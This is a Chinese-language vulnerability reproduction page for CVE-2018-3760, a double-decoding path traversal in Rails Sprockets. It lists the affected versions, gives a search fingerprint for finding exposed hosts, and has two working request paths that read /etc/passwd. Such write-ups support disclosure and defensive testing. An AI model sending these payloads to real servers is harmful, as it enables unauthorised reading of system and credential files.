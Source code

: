 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

<a-checkbox checked>Sprockets < 3.7.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Ruby On Rails"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

先获取绝对路径

```php
/assets/file:%2f%2f/etc/passwd
```

![img](../../../.vuepress/public/img/1656041358544-854ca040-261f-474f-86fc-61a8558e4238.png)

再利用POC读取文件

```php
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![img](../../../.vuepress/public/img/1656041483857-17cdbe06-5526-4b80-9189-b4ec9ea0b834.png)